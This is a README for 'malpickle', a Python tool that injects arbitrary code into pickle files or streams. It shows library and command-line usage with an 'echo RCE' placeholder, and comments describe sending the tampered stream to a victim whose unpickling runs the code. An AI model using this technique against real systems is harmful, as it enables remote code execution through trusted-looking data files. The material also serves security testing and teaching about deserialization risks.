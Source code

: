 # malpickle
Insert code into pickle files and streams. Pickle streams are serialized python objects.

How to use as a library:

    code = "echo RCE"
    evil_pickle_stream = malpickle.insert_code(code, pickle_stream)

    # evil pickle stream is sent to victim
    # victim unpickles stream
    data = pickle.loads(pickle_stream) # echos RCE, data is unaffected

How to use as a program:

    python -m malpickle.main pickle_file code_file

This modifies pickle_file in place, adding a copy of the code from code_file.

When unpickled, pickle_file will execute the attached code.


# Dependencies
None!

# Installation

- Download the contents of the repo and run `python setup.py install` (using `sudo` if appropriate)
